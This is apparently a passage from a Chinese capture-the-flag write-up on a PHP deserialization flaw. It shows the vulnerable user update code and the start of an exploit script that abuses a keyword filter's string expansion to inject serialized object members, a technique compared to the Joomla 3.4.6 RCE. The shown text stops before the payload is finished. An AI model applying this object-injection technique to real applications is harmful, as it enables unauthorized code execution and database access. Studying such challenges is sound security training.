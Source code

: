 反序列化点在`user.update`，将对象注入到`user.age`，利用过滤函数增加字符长度来溢出，注入类成员（类似于Joomla3.4.6 RCE）

```php
public function update()
{
    $Info = unserialize($this->getNewinfo());
    $age = $Info->age;
    $nickname = $Info->nickname;
    $updateAction = new UpdateHelper(
        $_SESSION['id'],
        $Info,
        "update user SET age=$age,nickname=$nickname where id=" . $_SESSION['id']
    );
    //这个功能还没有写完 先占坑
}
public function getNewInfo()
{
    $age = $_POST['age'];
    $nickname = $_POST['nickname'];
    return safe(serialize(new Info($age, $nickname)));
}
```

EXP：

```php
<?php

function safe($parm) {
    $array = array('union', 'regexp', 'load', 'into', 'flag', 'file', 'insert', "'", '\\', "*", "alter");
    return str_replace($array, 'hacker', $parm);
}

class User {
    public $id;
    public $age = null;
    public $nickname = null;
}

class Info {
    public $age;
    public $nickname;
    public $CtrlCase;
}

class UpdateHelper {
    public $id;
    public $newinfo;
    public $sql;
}

class dbCtrl {
    public $hostname = "127.0.0.1";
    public $dbuser = "noob123";
    public $dbpass = "noob123";
    public $database = "noob123";
    public $name;
    public $password;
    public $mysqli;
    public $token;
}

$uh = new UpdateHelper;
$u = new User;
```
